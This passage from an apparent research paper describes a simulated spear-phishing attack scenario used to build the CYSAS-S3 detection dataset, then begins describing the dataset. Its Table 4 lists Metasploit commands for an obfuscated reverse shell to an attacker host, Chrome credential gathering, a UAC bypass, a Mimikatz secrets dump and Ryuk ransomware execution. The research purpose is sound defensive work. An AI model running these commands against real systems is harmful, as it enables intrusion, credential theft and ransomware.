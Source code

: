 Figure 6. Scenario 2-Cyber kill chain for Webserver Denial of Service.



## 4.5. Fictitious Scenario 3: Credential Steal

During this adversarial scenario, the intruder has the objective of making the target computer unusable at the same time that the user credentials are stolen. The scenario depicts a joint attack made by a phishing email in which there is a malicious link and a malicious attachment driven by spear phishing tactics. The malicious link will be downloaded and obfuscated via a Meterpreter reverse shell. This reverse shell provided a remote Command and Control (C&amp;C) service ready to listen for incoming connections. Once the connection has been established (the victim launched the malicious attachment), the C&amp;C will receive a reverse shell connection, consequently starting the post-exploitation modules of Mimikatz and Chrome gathering for retrieving plain credentials. After the completion of those actions, the malicious service will upload Ryuk ransomware into the victim's machine and execute it. Table 4 details the executed APT phases in compliance with the MITRE ATT&amp;CK taxonomy, including the cyber kill chain. Figure 7 shows the flow of execution of the attack according to each of the phases defined previously.

Table 4. Detailed steps to perform the attack in Scenario 3.

| MITRE ATT &amp; CK   |   Phase | Tools                                                                                                            | Actions and Commands                                                                                                                                                                                                                                          |
|------------------|---------|------------------------------------------------------------------------------------------------------------------|---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| T1247            |       0 | N/A                                                                                                              | N/A                                                                                                                                                                                                                                                           |
| T1192 and T1193  |       2 | Meterpreter obfuscated reverse shell with msfvenom                                                               | msfvenom -p window/meterpreter/reverse\_tcp LHOST = ip LPORT = 4444 -e x86/shikata\_ga\_nai -I 20 -f exe &gt;xxx.exe                                                                                                                                                |
| T1094            |       3 | Metasploit                                                                                                       | The attacker delivers this malware sample to the victim via email and starts a reverse shell listener: 1- msfconsole 2- use multi/handler 3- set payload windows/meterpreter/reverse\_tcp 4- set LHOST ip 5- set LPORT 4444 6- run                             |
| T1003            |       4 | Post Exploitation w/Cred dumping (Chrome): Chrome gathering post-exploitation stager                             | The attacker receives the reverse shell and immediately throws a post-exploitation module in order to gather credentials stored within the Chrome web browser: - background (1st session to back) - use post/windows/gather/enum\_chrome - set session 1 - run |
| T1088            |       4 | Privilege scalation-Bypass User Account Control (Required for the following but not stated in previous diagrams) | In order to perform further credential dumping the attacker requires SYSTEM elevation: - use exploit/windows/local/bypassuac - set session 1 - run - getsystem                                                                                                |
| T1003            |       4 | Post Exploitation w/ Cred dumping (Win Domain and Logon) with Kiwi (Mimikatz)                                    | Local/Domain creds dump - load kiwi (from previous meterpreter-session 1) - lsa\_dump\_secrets                                                                                                                                                                  |
| T1486            |       4 | Impact-Data encryption                                                                                           | Execution of Ryuk ransomware                                                                                                                                                                                                                                  |

Figure 7. Scenario 3-Cyber kill chain for Credential Steal.



## 4.6. Dataset Description

Several attacks have been performed according to the APT explained in the previous sections. After successive debugging of the activity, the following samples were obtained: 108 from the first scenario, 47 from the second one, and 29 from the last one. Each run is packaged within a single csv in which all entries share the timestamp format that marks the run time. The fields of each one of the different beats in charge of processing and feeding the information into the database have been respected, which, although it complicates the reading of the CYSAS-S3 dataset, facilitates its ingestion by automatic tools. Therefore, each sample of the datasets represents a scenario execution and comprises the following information concerning the observed related indicators:
